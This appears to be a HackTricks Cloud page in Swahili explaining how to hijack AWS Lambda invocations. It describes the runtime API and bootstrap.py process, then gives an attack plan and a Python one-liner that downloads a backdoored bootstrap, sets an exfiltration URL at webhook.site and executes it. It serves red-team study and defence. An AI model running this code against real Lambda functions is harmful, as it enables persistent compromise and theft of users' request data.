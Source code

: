 # AWS - Kuiba Maombi ya Lambda

{% hint style="success" %}
Jifunze & fanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Mchakato wa Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ni mchakato nje ya kontena ambao **hutuma** **invocations** kwa mchakato wa **init**.
2. Mchakato wa init husikiliza kwenye bandari **9001** ikifichua baadhi ya njia za kuvutia:
* **`/2018-06-01/runtime/invocation/next`** – pata tukio la invocation linalofuata
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – rudisha jibu la handler kwa invoke
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – rudisha kosa la utekelezaji
3. **bootstrap.py** ina mzunguko wa kupata invocations kutoka kwa mchakato wa init na kuita msimbo wa watumiaji kuushughulikia (**`/next`**).
4. Hatimaye, **bootstrap.py** hutuma kwa init **jibu**

Kumbuka kuwa bootstrap hupakia msimbo wa mtumiaji kama moduli, kwa hivyo utekelezaji wowote wa msimbo unaofanywa na msimbo wa watumiaji unafanyika katika mchakato huu.

## Kuiba Maombi ya Lambda

Lengo la shambulio hili ni kufanya msimbo wa watumiaji utekeleze mchakato wa **`bootstrap.py`** wenye nia mbaya ndani ya mchakato wa **`bootstrap.py`** unaoshughulikia ombi lenye udhaifu. Kwa njia hii, mchakato wa **bootstrap wenye nia mbaya** utaanza **kuongea na mchakato wa init** kushughulikia maombi wakati bootstrap **halali** imekwama ikitekeleza ule wenye nia mbaya, hivyo haitauliza maombi kwa mchakato wa init.&#x20;

Hii ni kazi rahisi kufanikisha kwani msimbo wa mtumiaji unatekelezwa na mchakato halali wa **`bootstrap.py`**. Kwa hivyo mshambulizi anaweza:

* **Tuma matokeo bandia ya invocation ya sasa kwa mchakato wa init**, hivyo init inafikiria mchakato wa bootstrap unasubiri invocations zaidi.
* Ombi lazima litumwe kwa **`/${invoke-id}/response`**&#x20;
* Invoke-id inaweza kupatikana kutoka kwa stack ya mchakato halali wa **`bootstrap.py`** kwa kutumia moduli ya python ya [**inspect**](https://docs.python.org/3/library/inspect.html) (kama [inavyopendekezwa hapa](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) au kwa kuiomba tena kwa **`/2018-06-01/runtime/invocation/next`** (kama [inavyopendekezwa hapa](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Tekeleza **`bootstrap.py`** yenye nia mbaya ambayo itashughulikia invocations zinazofuata
* Kwa madhumuni ya kujificha, inawezekana kutuma vigezo vya invocations za lambda kwa C2 inayodhibitiwa na mshambulizi na kisha kushughulikia maombi kama kawaida.
* Kwa shambulio hili, inatosha kupata msimbo asili wa **`bootstrap.py`** kutoka kwa mfumo au [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), ongeza msimbo wenye nia mbaya na uutekeleze kutoka kwa invocation ya sasa ya lambda.

### Hatua za Shambulio

1. Pata udhaifu wa **RCE**.
2. Tengeneza **bootstrap** **yenye nia mbaya** (mfano [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Tekeleza** bootstrap yenye nia mbaya.

Unaweza kufanya vitendo hivi kwa urahisi kwa kuendesha:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Kwa maelezo zaidi angalia [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Marejeo

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
